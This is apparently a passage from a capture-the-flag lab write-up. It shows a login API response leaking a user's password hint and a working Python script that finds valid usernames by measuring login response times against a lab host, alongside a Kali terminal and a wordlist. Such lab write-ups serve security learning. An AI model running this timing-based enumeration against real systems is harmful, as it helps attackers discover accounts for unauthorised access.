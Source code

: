 ```
Content-Length: 32

Connection: close

{"hint":"a","username":"witty"}

Response

HTTP/1.1 200 OK

Content-Type: application/json

Date: Thu, 16 Mar 2023 17:12:29 GMT

Content-Length: 74

Connection: close

{"hint":"My favourite colour and my favourite number","username":"james"}

We found another username james :) (2 min)


┌──(witty㉿kali)-[/usr/…/wordlists/seclists/Usernames/Names]
└─$ cat hackernote.py  
#!/usr/bin/env python3
import sys
import requests
import time

def main():
    host = '10.10.247.168'

    with open(sys.argv[1]) as f:
        usernames = f.readlines()
    usernames = [x.strip() for x in usernames] 

    for username in usernames:
        start = time.time()
        creds = {"username":username,"password":"notimportant"}
        r = requests.post("http://{}/api/user/login".format(host), data=creds)
        done = time.time()
        elapsed = done - start
        if elapsed > 1.2:
            print("[*] Valid user found: {}".format(username))

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print("Usage: {} /path/usernames/file.txt".format(sys.argv[0]))
        sys.exit(1) 
    main()

┌──(witty㉿kali)-[/usr/…/wordlists/seclists/Usernames/Names]
└─$ sudo nano j_names.txt  
                                                                                    
┌──(witty㉿kali)-[/usr/…/wordlists/seclists/Usernames/Names]
└─$ more j_names.txt 
witty
jaan
jabir
jacalyn
jace
jacek
```